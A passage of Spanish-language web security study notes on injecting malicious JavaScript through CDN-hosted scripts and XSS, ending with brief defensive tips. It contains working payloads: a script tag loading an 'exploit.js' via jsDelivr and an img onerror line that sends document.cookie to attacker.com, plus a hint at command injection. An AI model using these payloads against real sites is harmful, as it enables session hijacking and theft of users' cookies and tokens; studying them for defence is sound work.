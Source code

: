 
## 8. Inyección de código malicioso vía CDN

### 📌 Concepto

Aprovechar el uso de etiquetas `<script>` que referencian contenido desde CDNs para inyectar código malicioso sin modificar el código fuente de la aplicación.

### 🔑 Ejemplo

```
<script src="https://cdn.jsdelivr.net/gh/guidotss/exploit/exploit.js"></script>
```

Si una aplicación permite incluir scripts de fuentes externas (como GitHub via jsDelivr), puedes subir un archivo JavaScript malicioso a un repositorio propio y ejecutarlo en la app víctima si puedes controlar alguna parte del HTML o inyectar contenido (XSS).

### 🔑 Inyección alternativa con

```
<img src=x onerror="fetch('https://attacker.com/steal?cookie=' + document.cookie)">
```

Este método se puede usar para exfiltrar información como cookies o tokens si la aplicación no implementa correctamente políticas de seguridad como Content Security Policy (CSP).

### 📌 Uso común

- Exfiltrar cookies o datos del usuario.
    
- Cargar código adicional para explotar otras vulnerabilidades.
    
- Interacción con APIs desde el contexto del navegador víctima.
    

---
## 9 Notas adicionales

- Siempre sanitizar entradas del usuario.
    
- Usar librerías actualizadas.
    
- Hacer pruebas de seguridad automatizadas y manuales.
    
- Verificar logs del servidor para detectar errores `500` o comportamientos extraños.
    
- Si se puede [[#2. Cross-Site Scripting (XSS)]]  probar con inyección de comandos [[Inyección de Comandos]] tipo `cat ... > `